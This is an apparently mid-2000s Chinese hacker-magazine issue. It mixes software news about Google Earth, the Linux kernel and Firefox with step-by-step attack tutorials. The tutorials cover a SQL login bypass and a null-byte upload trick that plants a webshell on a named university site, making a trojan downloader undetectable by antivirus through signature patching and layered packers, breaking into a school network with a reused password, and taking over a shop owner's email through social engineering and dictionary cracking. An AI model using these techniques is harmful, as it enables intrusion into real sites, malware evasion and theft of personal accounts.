放长假了，闲来无事到处玩玩！话说武汉大学的信息安全是国内高校中最牛之一，能入侵它网站的都是一些技术比较好的人，没有几个菜鸟能行。今天就不小心看见了网站上被挂了一黑页，貌似土耳其的一个黑客挂的，如图 1，不爽啊！为什么牛人总是那么多呢？

难道网站有漏洞吗？来到了被黑的网站首页，发现页面基本上都是静态的，也不可能存在 SQL 注入。习惯地在 URL 上加一个 admin，跳转到 http://lab.whu.edu.cn/admin/login.asp 用户登录页面，在用户名和密码处输入 'or'='or' 提示：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'
[Microsoft][ODBC SQL Server Driver][SQL Server]在关键字 'or' 附近有语法错误。
/admin/login.asp，行 32
```

总觉得注入成功了，但是不能进入管理页面。同时发现另外的一个登录页面，在用户名和密码处输入 'or'='!'，发现能进入后台管理页面。呵呵，进入后台，发现了一个上传文件的地方，试着上传一个 asp 文件，失败。上传时抓包看看，如图 2。

```text
Content-Length: 624
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDCCSTTQDS=FCGJGHDCLFLKEPFLMBNELBIK
-----------------------------7d633c1f084e
Content-Disposition: form-data; name="filepath"
downfiles
-----------------------------7d633c1f084e
Content-Disposition: form-data; name="act"
upload
-----------------------------7d633c1f084e
Content-Disposition: form-data; name="file"; filename="D:\HackingTool\网络木马\confi.asa"
```

保存后，用 nc 上传文件。返回为：

```text
......请将图片地址复制到上面 <input type=text name=T1 size=50 value="downdoc/downfiles/confi.asp"> [<a href="Javascript:history.go(-1)">继续上传</a>downfiles/confi.asp] ......
```

修改抓包的内容，“downfiles”改为“downfiles/confi.asa”，confi.asa 是保存的木马文件名，注意后面还有一个空格；把 filename 后的文件格式改成允许上传的格式，`filename="D:\HackingTool\网络木马\confi.rar"`；一共增加了 12 个字符，所以把 Content-Length 的值加上 12 为 636。现在用 UltraEdit 再把刚刚修改的抓包内容修改一下，用十六进制编辑 confi.asa 后面的空格，空格对应十六进制值是 20，将 20 修改为 00，如图 3、图 4 所示。

downfiles/confi.asp 就是一句话木马的地址，现在用一句话木马客户端连接，如图 5 所示。

接下来嘛！肯定就是把漏洞的消息告诉老师啊，让他把漏洞修复了。还忘了说了，我们的文章没多大的技术含量，适合初学者看，高手不要打击我们噢！

（作者附带的动画收录在光盘中）

# 编辑点评：

这个文章用到的知识还真“古老”，从开始的 'or'='1'=' 绕过管理员验证，再到后面的抓包修改，用 UE 修改截断字符 00，好像又回到几年之前，呵呵～不过，这些漏洞至今仍然存在，而且出现在一个信息安全居于国内一流的大学网站上，可谓遗憾！

# 夜航船

自从 Google 出现以来，就开始改变互联网，开始改变我们的使用习惯。如今，小编已经无法离开 Google 了。方便的 Note，贴心的日历，必备的工具栏，可以当网盘使用的 Gmail。Google 已经无处不在，最近也收购了一家视频网站……

今天我们就来了解 Google Earth，这一款可以让我们从中看到整个世界的小软件，通过它你将发现更多的有趣。

Formerly known as Earth Viewer, Google Earth was developed by Keyhole, Inc., a company Google acquired in 2004. The product was renamed Google Earth in 2005 and is currently available for use on personal computers running Microsoft Windows 2000 or XP, Mac OS X 10.3.9 and above, and Linux (Released on June 12 of 2006), and FreeBSD. In addition to releasing an updated Keyhole based client, Google also added the imagery from the Earth database to their web based mapping software.

Google Earth 曾经被人知道的名字是 Earth Viewer，Google Earth 是由 2004 年 Google 收购的公司 Keyhole 开发的。这套软件是在 2005 年被改名为 Google Earth，并且在现在我们已经可以将它运行在微软 Windows 2000 或 XP、Mac OS 10.3.9 或者更高版本，以及 Linux（2006 年 6 月 12 日释出）和 BSD。除了发布更新基于 Keyhole 的客户端，Google 也不断地添加加强 Google Earth 基于网页版本的数据库中的图片。

Many large cities are available in a resolution high enough to see individual buildings, houses, and even cars. In cities such as London, Washington DC, and Seattle, individual people can be clearly discerned. The degree of resolution available is based somewhat on the points of interest, but all land is covered in at least 15 meters of resolution. [citation needed] Las Vegas, NV, Cambridge, MA, and Fulton County, NY have the highest resolution, at six inches. Google Earth allows users to search for addresses (for the USA, Canada, and Europe only), enter coordinates, or simply use the mouse to browse to a location.

Google Earth 的分辨率足够高，以至于很多大型城市的高楼大厦、民宅甚至连汽车都可以被看见。在某些城市比如：伦敦、华盛顿和西雅图，你可以清楚地看见每一个人。不过，目前只有某些位置支持所有的分辨率，但是有的地方至少可以以每像素十五英尺的尺寸被看到。Las Vegas, NV, Cambridge, MA, and Fulton County, NY 可以用最高分辨率观察（6 英寸/分辨率）。Google Earth 允许用户搜索地址（限于美国、加拿大、英国），输入坐标或者只是简单地用鼠标点击就可以来观察一个地方。

Google Earth also has digital terrain model data collected by NASA's Shuttle Radar Topography Mission. This means one can view the Grand Canyon or Mount Everest in three dimensions, instead of 2D like other map programs/sites. In addition, Google has provided a layer allowing one to see 3D buildings for many major cities in the US.

Google Earth 也支持数字地势模式观察，这是由 NASA's Shuttle Radar 技术组支持的。这表明你可以抛弃类似其他地图 2D 查看模式，而通过 3D 的模式观察峡谷或者高山。现在，Google 已经让我们可以通过 3D 的模式观察一些美国的大型城市。

Many people using the applications are adding their own data and making them available through various sources such as the BBS or blogs mentioned in the link section below.

许多人在使用 Google 的过程中，通过不同的方式，比如 BBS、Blog，来添加他们自己的可用地理数据。

# 超强下载者免杀

> 从本文你可以学到：
- 如何挑选下载者
- 如何免杀下载者

> 免杀金牌  
> 被杀与免杀就如盾与矛，当一方胜出，另一方则会更加深入地去研究，正所谓此消而彼长。矛与盾之间的斗争是不会停止的。  
> DarkRay[D.T]

## 选择下载者

现在是网页木马横飞的年代，而一些比较稳定的远程控制木马的体积都很大，为了方便木马的传播，于是便有了下载者的产生，它是连接起网页木马和隐藏在幕后黑手的沟通桥梁。市面上的下载者随处可见，但一个真正好用的下载者应该具备什么样的功能呢？我认为至少应该具备以下几种功能：

- 1. 隐蔽性：包括能够删除自身，插入进程，达到保护自己的目的。
- 2. 穿墙性：不能穿越防火墙的下载者就像是被拉起来的铁索桥。
- 3. 自启动：这项功能可以灵活选择，一般来说中一次网页木马就会在后台自动下载了。
- 4. 体积小：一般来说下载者所占的体积最好不要超过 5K。

具备了这样几项功能的下载者，一般说来就不错了。今天我给大家推荐的是由 PERL 编写的“4K 无 DLL 下载者”，如图 1 所示。

## 免杀下载者

### 一、定位特征码

让我们来温习一下使用 MYCCL 定位特征码的方法。针对不同的杀毒软件有不同的免杀方法，这就要熟悉杀毒软件的杀毒机制和杀毒软件的强项。比如对于文件的免杀，我们的首要目标就是躲避卡巴斯基的查杀，下面请一步一步跟我来！打开 MYCCL，载入生成的下载者，建议把带后缀打上勾（纯属个人习惯，对于文件免杀的时候可以不用勾选，对于内存免杀一定要勾选）。可以看到，当选中文件以后，MYCCL 会给出一些文件的信息，比如有哪些 PE 段，如图 2 所示。一般我们选取的 PE 段是 CODE 段，顾名思义也就是代码段了，在开始位置里填入 CODE 段的起始位置，在分段长度中填入 CODE 段的物理长度，在分块个数中我建议大家每次分段 10 份，这样多次分段查杀可以节约很多时间，设置完成后点击生成，如图 3 所示。

接下来，到需要免杀的下载者的文件夹下会有一个 OUTPUT，用杀毒软件进行查杀！查出来的要记得删除（许多杀毒软件中都有设置）被查杀的样本文件，再用 MYCCL 进行二次处理，如图 4 所示。

选择“Yes”继续生成样本让杀毒软件进行查杀，直到 MYCCL 提示找到特征码为止，如图 5 所示。

然后我们点击特征区间，选中这段特征码，点击右键复合定位此处特征码，同样在分块个数中设置 10 份，MYCCL 会继续在 OUTPUT 下生成样本文件，重复刚才的步骤直到再次定位出特征码为止，一般要精确到 2~4 个字节，比如 000000F2——00000199 这段，下划线后面的部分末尾应该是 2 或者 4。定位出的特征码为“000010B9_00000002”，如图 6 所示。

### 二、修改特征码

用 UE 来修改特征码，打开下载者，找到 000010B9 这个位置，看看它对应的字符还是什么，如果是字符我们可以尝试修改大小写来达到免杀目的，或者直接填加 00H，但是有可能导致下载者功能被破坏，设置运行出错，如图 7 所示。

为了安全我们使用通用跳转法来修改特征码。需要知道 000010B9_00000002 在内存中对应的地址，打开 OC，选择文件，填入文件偏移地址也就是 000010B9，点下“>>>>”就可以得到特征码在内存中对应的地址了，这里是 13141CB9，如图 8 所示。

用 OD 载入，跳转到 13141CB9 位置，如图 9 所示。

是 MOV 语句，如果你不懂汇编语言可以参考 8088 汇编手册，这个是比较语句，如果你对汇编了解的话可以使用等效替换语句来达到免杀的目的，今天介绍的是通用跳转法。好了，回到主题，复制下这句汇编指令，然后往下找空白段，也就是 HEX 值为 0000 的地方，把这段 MOV 汇编指令复制到空白段，记下空白段的地址，比如我找的是 13141F44，在下面也就是 13141F46 加 JMP 指令，JMP 指令在汇编中是无条件跳转指令，跳到特征码对应的内存地址中紧接着的语句，我这里是 JMP 13141CBE，如图 10 所示。

然后回到特征码对应的内存地址处，也就是 13141CB9，我们把这段 MOV 汇编指令修改成 JMP 汇编指令，跳转的地址就是刚才找的空白段 13141F44。全部修改完成后，单击鼠标右键——>复制到可执行文件——>所有修改，保存完毕，特征码的修改也就完成了。用杀毒软件查杀，提示没有检测到病毒。

剩下的工作就是测试功能的完整性了。建议大家安装 POWERSHADOW（影子系统），是类似于还原精灵的软件，如果有任何错误重新启动就可以恢复了，这样菜菜们就不怕啦！

### 三、加固防杀

修改文件特征码是对付卡巴斯基的好方法，卡巴的虚拟机脱壳技术很强悍，也就是上壳很容易就被查杀了，而我们修改了特征码再上壳，卡巴是不会查杀的（不过也有特殊情况，卡巴查杀的不是下载者，而是壳）。对付了卡巴还有国产的内存杀毒能力很强的瑞星，对付瑞星我们只要上一层强悍的加密壳就可以了，比如北斗系列中的 NSANTI，或者其他保护壳。这里用 ASProtect SKE 来逃过瑞星的查杀。选择 OPTION，设置好相关参数，PROTECTION OPTION 顾名思义就是保护参数，保持默认就可以了，FILE TO PROTECT 就是你需要加壳的文件的地址，OUT 就是输出的地址，再转到 MODES，点击 ADD MODES 添加你刚才设置的模式，随便取个名字就可以了，我这里是 DDDD，最后转到 PROTECTION 点击 PROTECT 就开始加壳执行保护了，如图 11 所示。

这样一个比较完美的免杀下载者就制作完成了。

# 总结

免杀的思路还有很多，是和 HACKING 一样注重思想的东西。对于免杀，不会特征码定位是肯定不行的，这次我们又温习了一遍。如果大家有任何疑问欢迎到 NOHACK 论坛与我讨论，或者访问暗组 http://www.Msmm.Cn，我的 ID 是 DarkRay。

（本文所用工具 ASProtect SKE 2.3 Beta、OC、OLLYDBG、MYCCL 特征码定位器、ULTRAEDIT-32 已收录于光盘）

> 编辑点评：作者详细说明了特征码的确定方法，也正如其所说免杀不会特征码定位是不行的。又利用通用跳转法逃避杀毒软件对特征码的查杀，既不破坏原程序功能，又达到了免杀的效果，妙哉！

# 木马免杀之多层加壳

必杀

> 从本文你可以学到：
- 了解壳的定义及作用
- 深入学习多次加壳的原理及运用软件进行多次加壳

现如今虽然各种各样的免杀方法层出不穷，但是通过“加壳”这种既传统又简单的方法进行免杀，仍然不失为一种非常有效的免杀方法。加壳免杀看似简单，但在选择使用的加壳工具上很有技巧。一般都应该选择一些不常见的壳，或者一些猛壳或是刚刚发布的新壳。这样杀毒软件在没有对这种壳进行破解之前，是无法脱壳分析文件的特征码的。就算这种壳被杀毒软件破解，也完全可以利用多层加壳技术来进行免杀。但是很多人在进行多层加壳的时候却常常出现各种各样的问题，今天我们就来解决这些问题。

## 什么是“壳”

在自然界中，我想大家对壳这东西应该都不陌生了，植物用来保护种子，动物用它来保护身体等等。同样，在一些计算机软件里也有一段专门负责保护软件不被非法修改或反编译的程序。它们一般都是先于程序运行，拿到控制权，然后完成它们保护软件的任务。就像动植物的壳一般都是在身体外面一样理所当然（但后来也出现了所谓的“壳中带籽”的壳）。由于这段程序和自然界的壳在功能上有很多相同的地方，基于命名的规则，大家就把这样的程序称为“壳”了。

从功能上想像，软件的壳和自然界中的壳相差无几。无非是保护、隐藏壳内的东西。而从技术的角度出发，壳是一段执行于原始程序前的代码。原始程序的代码在加壳的过程中可能被压缩、加密……当加壳后的文件执行时，壳这段代码先于原始程序运行，把压缩、加密后的代码还原成原始程序代码，然后再把执行权交给原始程序。

从“壳”又延伸出“加壳”和“脱壳”两个词汇。“加壳”指的是对编译好的 EXE、DLL 等文件采用加壳来进行保护。壳出于程序作者想对程序资源压缩、注册保护的目的，把壳分为压缩壳、加密壳两种。顾名思义，压缩壳只是为了减小程序体积对资源进行压缩，常见的压缩壳包括 FSG、ASPack、UPX、北斗等；加密壳也就是常见的保护壳、猛壳，它对程序输入表等内容进行加密保护，具有良好的保护效果，常见的加密壳包括 ASPROTECT、ACPROTECT、PELock、幻影等。用加密壳加过之后程序会变大，而压缩壳会使程序变小。当然，有的壳不仅可以加密还能压缩。

## 实例演示

有人说过：壳之初，性本善。本来壳的诞生是为了帮助程序作者更好地保护自己编写的程序，但现在很多时候却成为黑客保护木马不被查杀的重要工具。虽然在开头提到加壳要选择一些陌生的壳，其实只要我们正确地进行设置使用，很多像 ASPack、UPX、FSG 等常见的壳也能起到免杀的作用。

WebDAVScan 是一款针对 Win2000 WebDAV 远程缓冲区溢出漏洞扫描工具，今天我们就利用这款工具来做试验。首先运行 PEiD 对 WebDAVScan 进行查壳处理，将 WebDAVScan 直接拖到 PEiD 界面上释放，发现该工具并没有进行加壳处理，如图 1 所示。

一般情况下，在进行多层加壳的时候，我们首先运用强壳来进行加壳，接着再通过压缩壳来压缩。这里首先运行 Hying's PE-Armor 这款加壳工具，据说这是一款国产的强壳。接着在弹出窗口中选择“处理”标签的“要保护的文件”选项中，选择需要加壳的 WebDAVScan 文件；再切换到“设置 1”标签，选择其中的“合并区段”、“忽略区块共享”、“保留额外数据”、“压缩资源”、“输入表加密”等，如图 2 所示；接着再切换到“设置 2”标签，选中“将自身伪装为”选项，然后从下拉列表中选择一个伪装的项目，如图 3 所示，最后返回到“处理”标签并点击其中的“保护”按钮即可。

第一次加壳已经完成了，现在开始第二次加壳，但是现在并不能马上就进行加壳，还需要进行一步处理才行。以前之所以有很多用户在进行多层加壳的时候出现错误，就是因为在加壳以后没有对文件的资源进行重建，所以常常出现加壳失败的问题。这里需要使用 FreeRes 这款工具，属于第二类工具，它不是脱壳工具，却能分析被压缩的资源。正因为它不是脱壳工具，所以它可以不受制于加壳压缩工具的版本升级问题，FreeRes 同样也不受制于软件是被何种加壳压缩工具压缩的，所以它能百分之百地分析被压缩的资源。对于被压缩的软件，FreeRes 还能为它重新建立起一份可编辑的资源，使其他资源编辑工具能够正常地处理加壳过的软件。

运行 FreeRes，点击工具栏中的“打开文件”按钮，选择刚刚加壳的 WebDAVScan 文件。这时弹出一个提示窗口，告知用户“载入资源错误，它可能已被压缩，你是否需要释放资源进行分析？”，我们这里直接点击“是”按钮，如图 4 所示。

这里需要特别声明的是，在重建资源的时候，FreeRes 会运行当前正在处理的文件，也就是说如果你正在对木马程序进行加壳处理的话，程序将自动运行木马程序。接着点击“功能”菜单中的“建立可编辑资源”命令，给压缩的文件进行资源重建。

下面通过 ASPack 进行第二次加壳处理。运行 ASPack，点击“打开”按钮，选择刚刚处理过的程序，选择完成后 ASPack 会自动为程序进行加壳，如图 5 所示。

接着再通过 FreeRes，按照前面的步骤对加壳的文件进行处理，再次给文件进行资源重建处理，这里我们再用 PECompact 对文件进行加壳处理，这是进行的第三次加壳处理。运行 PECompact 后，点击“浏览”按钮选择刚刚处理过的文件，接着点击“压缩”按钮再次进行加壳处理，如图 6 所示；然后再利用 FreeRes 对文件进行资源重建处理即可。

在经过了这么三次的处理后，我们再经过杀毒软件检测，发现已经不再被查杀了。如果大家发现这样处理后依然会被查杀，那么同样可以再加壳再进行资源重建，直到不会被查杀为止。理论上的话，通过这样的连续操作，我们可以给被处理的文件加上无数的壳。

[文中提到的 ASPack、FreeRes、PECompact2、超级猛壳 Hying's PE-Armor 在光盘中有收录]

> 编辑点评：  
> 经过多次加壳的确可以完全躲过大多数杀毒软件，同时也给手工分析查杀带来了一定的难度，不过给菜菜们找到了一种适中的免杀方法，实用。

> **星语：**  
> 话说今日又来网吧，登了卡号直奔 www.baidu.com。你问为啥？昨天看到舍友高中时候的女同学的照片……可那欠扁的小子怎么也不肯告诉我美女的 QQ。切！小子，以为我没有办法？直接在 BAIDU 中输入美女的网名……不一会在一个免费个人主页上看到一个熟悉的名字，再通过地址基本确认便是此人。众里寻她千百度啊！哈，可以和 MM 聊天了！～要说这社会工程学咋就这么厉害呢，人的心理真是奇妙，难怪有心理学这门学问。不过偶要说的是搜索中文信息用百度比较好，如果搜索 E 文信息或者技术方面的东西，还是用 Google，外国站在技术方面的服务总体说还是很强的，而且都是免费。用好百度，用好谷歌，学好社会工程学。

# 巧妙利用社会工程学入侵校园

罗秉琨

> 从本文中你可以学到：
- 社会工程学的初级利用——猜解密码

自从前几年我们学校成立了校园网络（以下简称“校园”）以来，校网就频频受黑，有好几次考试的试题也被学生从校网的内部试题库中“窃取”，甚至有一次部分学生的学籍也被修改，这引起了我们学校领导的高度重视，因此这学期学校对校网大幅维护，使网站的安全性提高了不少，同时也使我们这些“小毛孩”无机可乘。

但前几天校园又被我给“涮”了，这还得从那件事说起……

我们学校为了使学生更好地与老师沟通，特意给每个老师都弄了一个留言本，这下可好，又给我们提供了一个与校园“亲近”的机会。我们怎么能轻易放过它呢？

先来检测一下吧，因为这种留言本也没有什么默认密码，是我们老师自己开发的，所以我就先使用最基础的第一招吧——检测一下可不可以注入。输入其中一个留言本的具体地址 http://www.xxx.net/int/touch.aspx?classid=1&userid=1，然后提交 and 1=1，and 1=2，不测不知道，一测吓一跳，当输入 and 1=1 的时候返回了正常信息，输入 and 1=2 竟返回了错误信息。

于是我就赶紧拿出啊 D 去猜解，不到一杯茶的功夫就“猜”出了部分老师的密码，如图 1。

又过了不到几分钟，所有老师的密码就出来了，拿到了老师的密码，选择登录，进入了留言本的操作后台。刚一看，原本高兴的心情又失落了下来，留言本功能也就简单了吧，就是一个答复留言的地方和一个修改密码的地方，如图 2。

没有任何的利用价值，但我们也不能就这么算了啊，何况这也不是我们的一贯作风，现在手头只有所有老师的留言本的账号，我们要让它发挥最大的作用……忽然脑海闪过了一丝亮光——何不试试失传已久的社会工程呢？

于是我便想：学校的网站管理员大多都是老师，既然每个老师都有留言本。那么我们可爱的网管老师也就肯定有一个咯！根据社会工程心理，它的密码有可能……（嘿嘿~）

于是我就赶紧用王××（就是我们的网管老师）的密码到校网后台去登录试下，想不到竟然不对。又拿它到校网信箱、校网论坛的前台登录了试下，真个纳闷啊，都提示我密码错误，如图 3。

于是又想到这可能是他私人用的密码，那何不去试试他的电子信箱呢？说干就干，输入密码 / 用户名，点击“登录”，哈哈，顺利进入！如图 4。

在收件箱倒没什么发现，无非就是一些学习资料什么的，但忽然旁边的一个自建文件夹引起了我的兴趣，大家看看，如图 5。哈哈，看到了么？——“网站数据备份”。HOHO~可能有数据哦。

注意左边的那个画红圈的地方，发现了什么？于是赶紧进去翻了一下，哈哈，功夫不负有心人，终于让我找到了——我们校网的数据库。于是赶紧打开，翻出了他的 MD5 密码，到 MD5 网站一下子就弄出来了。

赶紧拿这个密码，来到了校网的管理后台，如图 6。

紧接着就弄了个“小马”上去，哈哈，下一步干啥就要看我的了（嘻嘻，不告诉你）。

# 总结

本文利用了一个小注入点加上社会工程学将老师们认为“超级安全”的校网拿下了，由此可见能够熟练地利用社会工程学，在入侵中善于发散思维是多么的重要。另外我们在入侵一个网站时对于任何有价值的东西都不要放过，尽量让它发挥它最大的作用，这样或许明天你就会在黑色的天空下展翅高飞。

> 编辑点评：  
> 社会工程学似乎是随着黑客的诞生而诞生的。想当年大神 Mitnick 曾利用无敌社会工程学进入过多少 IT 公司和政府组织。现在的社会工程学利用似乎集中在了密码猜解方面，和以前大不相同。当然，这是现实，入侵行为是逐渐虚拟化的，而不再是从前的实地踩点。希望这篇社会工程学文章会让你对它警惕起来。

## 社会工程学再利用 攻破你的 E-MAIL

> 从本文你可以学到：
- 1. 如何利用社会工程学刺探攻击方信息
- 2. 如何由被攻击方信息制作出字典
- 3. 如何巧妙破解被攻击方的邮箱

## 起因

B2C 商务在中国已经开展得如火如荼，我也加入了网络购物的大潮，在一小店看到了 NOKIA3250 的价格只要 700RMB，心里有些想买，但是也怕会出一些差错，虽然店主的评价还是不错的，俗话说：便宜没好货，于是我加了店主的 QQ，希望能挖出一些敏感信息，来验证超低价格的手机是否是一个骗局！攻击方式：通过网络聊天获取对方 E-MAIL 账号密码等信息。

> 攻击目标：进入对方 E-MAIL 查看敏感信息。  
> 整体思路：店主的相关信息收集（关键）——结合社会工程学制作字典（特别关键，直接影响你的效率）——暴力破解对方 E-MAIL。

## 收集信息

淘宝会绑定一个 E-MAIL 来发送客户留言等信息，于是我从他店面的主页上找到了 E-MAIL，最基本的目标就是进入他的 E-MAIL 查看客户留言或者其他的一些敏感信息。下面是我和店主的一些对话，希望读者能从中体味出语言的艺术，如图 1（为保护对方权益，已将相关敏感信息做了处理）。

除了这些我还查看他 QQ 的信息，到 GOOGLE 上搜索了一些

# 社会工程学

其他的信息，比如 BLOG，或者是在某些论坛的资料，我这里都是一些无关紧要的信息（我是这么认为，但是有时候越不起眼的信息也许越有用），收集足了被攻击方的信息，下一步便是进行信息的筛选了。

## 筛选信息 制作字典

如果不进行信息的筛选，制作出来的字典会很大，而且没有效率。我们可以根据国人的经验加一些常用的密码组合形式来制作字典，比如 5201314、7758258 等。我建议制作的字典应该遵循常用简单密码组合加个人相关信息组合，简单来说就是诸如 5201314、123456 这样的常见密码形式配合被攻击方的生日、电话等制作字典。常用字典组合可以从网上搜索手动添加到字典中，我这里主要阐述配置相关信息命令的字典。从他的 E-MAIL 和中文姓名中不难看出，用到了以下几个字母：D、X、I、A、N、G、U、M，而且生日是 19710909，计算中年龄大概是 35 岁。一般来说对于国人的密码组合排列形式有如下几种（可以参考 H4K_B4N 写的社会工程学利用的文章）：中文名缩写+6 位或者 8 位生日、中文名姓+6 位或者 8 位生日、中文名+6 位或者 8 位生日、纯数字 6 位生日或者 4 位生日、常见英文名称+生日等等。我使用的是易优字典制作工具，如图 2。

根据这种排列方式可以很容易地制作出有效率的字典。生成的字典也不过 4MB 左右，生成的过程需要一些时间，有时候不能一次配置通过（如果所有的组合排列形式都选上，磁盘的空间会不够，生成字典也要耗费许多的时间），我们可以尝试多次配置不同的排列组合，再进行暴力破解！

# 手工暴力破解

因为是进行纯手工的暴力破解，所以我们还要进一步筛选出一些有用的信息，如图 3。

最好是通过找回密码的功能，因为这样的劳动量比较小，但是我们知道通过找回密码功能是将新密码发送到一个你所知道的安全邮箱，所以这里还要利用你巧妙的语言刺探出他的另外常用 E-MAIL。下面是聊天记录，如图 4。

根据对话我推测，他绑定的是 QQ 的邮箱，我开始使用他提供的一些信息进行手工猜测，成功得出他的密码是他的手机号码（连 QQ 也买到了），接下来是进入 E-MAIL，如图 5。

我有了一个他的 E-MAIL，邮件都被删除得很干净（好习惯！）。接下来就是通过密码保护来拿他交易使用的 E-MAIL 的密码了，如图 6。

好了，提示成功了！我们去 QQMAIL 那里得到他的密码，如图 7。接着修改他的密码登录他的交易 E-MAIL，哇！里面的交易信息还真多啊，而且也找到了不少敏感信息，如图 8。看样子他的确是个正当商人啊，这下可以放心地购买了！

# 总结

也许大多数人不会认可这种方式，社会工程学利用本身就有一些运气的成分（都是利用了人们的从众心理），社会工程学是一门语言的艺术，也是一种欺骗的艺术，“人防”工作做得不充分，有再强大的防火墙又有什么用呢？

声明：本文只阐述了社会工程学被利用的危害性，由此引起的法律责任，作者概不负责！

> [文章中涉及到的软件易优超级字典生成器光盘中有收录]

> **编辑点评：**
> 又见社会工程学！我想作者的目的是给出一个利用聊天收集信息的例子，破解部分不是主要的。语言是门艺术，会说话的人总是能得到他想要的东西。但是文章中的字典制作部分不是很详细，有关字典的制作请参看《手册》以前的文章。

企鹅 lala：

还没看到落叶就到了 11 月，lala 这里大半个十月还像夏天。虽然有点不适应，但看在可以多看看穿裙子的 MM 份上，倒也不抱怨什么了。

开源界依然在快速发展着，可喜的是我们看到了越来越多国货的身影。龙芯、华镭 Linux、永中 Office……我们期待着工作在中国自己的软件、硬件平台上的那天。

在过去的一个月中，许多软件都有重要的更新。Firefox、Kernel 发行版本。抛开无休止的争论，让我们看看有什么新进展吧！

# Linux 内核升级：2.6.18

经过多个 RC 测试版之后，Linux 内核（Kernel）今天终于升级到了 2.6.18 版，距 Linus Torvalds 发布上一版本 2.6.17 又是三个月。2.6.18 版内核改进了 Linux 对 SATA 的处理，同时改善了 SELinux，并安装了新的网络包控制机制 secmark；另外，为了 Udev 系统，Devfs 驱动设备文件系统也最终从 Linux 内核中剥离。

总的来说，新内核改动并不多，更多的是加入了一些升级补丁，不过 Linus Torvalds 在 E-mail 中热情勃发，大呼“该起锚了”。

lala：lala 接触 Linux 之后，第一个动作就是升级内核。那时从 2.4 升级到 2.6 内核的确耗费了不少功夫。但在过程中也学到了不少东西。如今很多版本的内核更新都不用自己编译，直接用 rpm 或者 deb 包就可以方便地更新了。另外还有一个小规律，开源软件的开发版本双数为稳定版本，单数为开发版本。所以我们并不会看到 2.5 内核有大量投入发行版本的使用。

# Mandriva 2007 终于发布

经过历时一年的紧张开发，Mandriva 2007 终于面向大众推出。以前一直被广大用户视为歧视免费用户的措施，即俱乐部会员优先下载，这次已经被完全取消。所有用户都将在同一时刻享受到 Mandriva 为您带来的卓越桌面和服务器体验。

和以往一样，Mandriva 的零售版本（Discovery、PowerPack）只开放给相应等级的俱乐部会员下载。公众可以下载到的版本包括 Free 和 One。

Mandriva Free 是 Mandriva 在线软件仓库的一个子集。从超过 12G 的自由软件仓库中精选出不到 3G 的内容，对任何人来说都并非易事，更何况是支持 70 多种不同语言的 Mandriva。因此，为了要得到一个完整的中文环境，你可能必须要下载完整的 4CD，而部分软件（如 Firefox）的中文界面，你必须从在线仓库中安装。

Mandriva Free 需要安装到硬盘后才能使用。而 Mandriva One 与此不同，它是一款可安装的 Live CD。这意味着，你可以直接在光盘上运行 Mandriva Linux，如果你喜欢的话，马上就可以把你所看到的安装到硬盘上。

lala：“Mandriva 是收费 Linux 中比较有名的一款，曾经 lala 也为其大量的商业软件、驱动所倾倒。但好用不好用并不只是看软件的数量，更要看质量！其免费版本还要受到使用软件限制的措施的确会失去很多用户。事实上在最近的两年时间，Mandriva 的桌面使用份额有所下降。

对于高考考生来说，6 月是残酷的。对于大学毕业生来说，11 月则是一道门槛。大多数学生都要在这个时候找工作了……岁数大了问题也来了。工作、感情、生活、学习都是需要自己去考虑的。希望还在学校的学生们好好抓紧现在的时间，多读点书！多做点创造！多看看《黑客手册》，为国家做贡献……（众人寒……）

本期窗外由 lala 亲手为大家打造全面的 Linux 媒体特辑！让你由小菜全面升级为媒体高手，今后再也不用为了看电影而打开 Windows 了。本文篇幅之长、涵盖软件数量之多，算是《窗外》诞生以来的首创！还等什么，赶快切换你的系统吧！

# Firefox 2.0 RC 2

Firefox 2.0 的第二个 RC 版来了。这个版本相对 RC 1 版，不仅修正了一些 Bug，而且改进了代码的稳定性。另外，Firefox 2.0 的外观界面比起 Firefox 1.x，真的要好看得多。已经用或者即将使用 Firefox 2.0 的朋友不要错过更新了。

lala：Firefox 一直是 lala 手上高效工作的利器，强烈建议还在用 IE 的朋友转移到 Firefox 上。在大家拿到杂志的时候，2.0 正式版本已经推出了。2.0 系列在边角上有圆滑处理，使得外观直上了一个档次。另外大多数扩展都已经支持 2.0 系列，不用太担心扩展问题。

# Skype 1.3

Skype Linux 版本也有了新的动作，最新释出 1.3.0.53，解决了不少问题。已经有 rpm 包和 deb 包提供下载。

lala：Skype 是一款优秀的网络电话软件。其多平台的支持也方便了用户。最新版本的 Skype 安装后，lala 这里没有出现以前的声音设备错误问题。类似的软件还有 wengo、Gizmo，wengo 在 IP 电话价格方面比 Skype 更加便宜。

# Gaim 2.0 beta 4 发布

根据 Gaim Development Blog 的投递，Gaim 2.0.0 的第四个 Beta 版将会很快发布。同时，其中也会包含以下新增特性：

- 1. Gaim 2.0.0 beta4 在朋友列表中引入了一个可供多个账号共用的头像选择器。该选择器支持拖拉操作，用户可以很方便地在此定义自己的头像。
- 2. 为了分隔每个朋友分组列表，Gaim 2.0.0 beta4 在分组名称上使用了背景颜色，而其下的项目则会缩进显示。
- 3. Gaim 2.0.0 beta4 将会第一次发布完整的 libgaim 库，该库可供其他的 IM 程序使用。而另外一方面，针对 *nix 的文本界面模式，则有 gaim-text 来帮助用户在文本模式中与朋友们联系。
- 4. Gaim 包含了一些新的协议，比如 QQ。

lala：Gaim 一定是 Gnome 环境下最受欢迎的 IM 程序了，想必有不少人在为了 QQ 而另外开启一个 Lumaqq 或者 EVA。如今则可以在一个窗口和 MSN 好友、QQ 好友聊天了。Ubuntu 已经释放了最新 CVS deb 包了，建议大家更新。

# 黑屏

在前期杂志中，lala 带大家铲平了网络聊天之路。无论是 MSN、QQ 还是 Google Talk 都通吃无疑！本期窗外为大家带来多媒体特辑，全面打造你的娱乐空间！谁说 Linux 不适合做桌面？就在这期颠覆你的理念吧！（本文以 Ubuntu 6.06 LTS 为平台。）

## 一、视频播放

好多小菜都在问，有没有像影音风暴一样的程序啊？有没有像 KMP 一样的程序啊？大家都在寻找一个功能齐全、体积小巧、能通吃各种格式的播放器。Linux 当然也有！

### 1. 准备工作

有一些和 Windows 类似的概念我们需要了解，Windows 在播放媒体文件的时候需要解码库。同样在 Linux 下我们也需要这些东西，不要认为某个播放器不能播放一些格式就是一个失败的作品，事实上，我们可以通过安装解码库让 Linux 实现全能播放，让播放器支持几乎所有视频格式。

### (1) 安装 w32codecs 解码器

在 Ubuntu Linux 下执行以下命令：

```bash
sudo apt-get install w32codecs
```

